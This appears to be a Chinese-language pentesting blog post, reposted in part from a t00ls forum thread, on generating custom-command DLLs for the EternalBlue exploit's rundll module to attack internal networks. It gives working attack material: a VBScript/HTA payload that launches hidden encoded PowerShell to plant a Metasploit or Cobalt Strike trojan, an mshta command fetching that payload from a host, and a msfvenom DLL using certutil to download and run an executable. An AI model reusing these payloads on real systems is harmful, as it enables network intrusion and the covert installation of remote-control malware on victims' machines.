 ![](https://ws1.sinaimg.cn/large/b6de3d7dgy1fzgf4qgo9aj20gm0k8q4o.jpg)

## 二、custom_command_dll

自定义命令的dll

最近在测试一个项目的时候，远程代理回来搞内网，使用永恒之蓝打内网好不方便，用之前坛子里的nc.dll也不行，毕竟是代理，不好用nc反弹。于是有自定义命令的dll，那将方便很多。

成品

custom_dll.exe，支持32和64位dll的生成，其实32的在64位的系统也能运行，为什么还要64位的呢？？因为NSA的rundll模块需要匹配位数的。工具是交互式输出的，不多说了，来几张图：

运行个任务管理器：

![](https://ws1.sinaimg.cn/large/b6de3d7dgy1fzgfarpa9vg20m60fgazm.gif)



![](https://ws1.sinaimg.cn/large/b6de3d7dgy1fzgfayzv43g20m60fgkfq.gif)



![](https://ws1.sinaimg.cn/large/b6de3d7dgy1fzgfb6mobig20m80fh7wh.gif)

种个远控木马，用msf或者cobalt strike：

http://192.168.1.105:8080/test.txt

```
<script language="VBScript">
        Function var_func()
                Dim var_shell
                Set var_shell = CreateObject("Wscript.Shell")
                var_shell.run "powershell.exe -nop -w hidden -encodedcommand JABzAD0A。。。。。。", 0, true
        End Function
        var_func
        self.close
</script>
```

然后生成的时候command写：

```
mshta http://192.168.1.105:8080/test.txt
```

来源：<https://www.t00ls.net/thread-44032-1-1.html>

## 三、总结

### 3.1 下载文件的dll

```bash
msfvenom -p windows/exec CMD="certutil -urlcache -split -f   http://xxx.xxx.xxx.xxx/xxx.exec:\xxx.exe” -f dll>/root/s.dll   
```
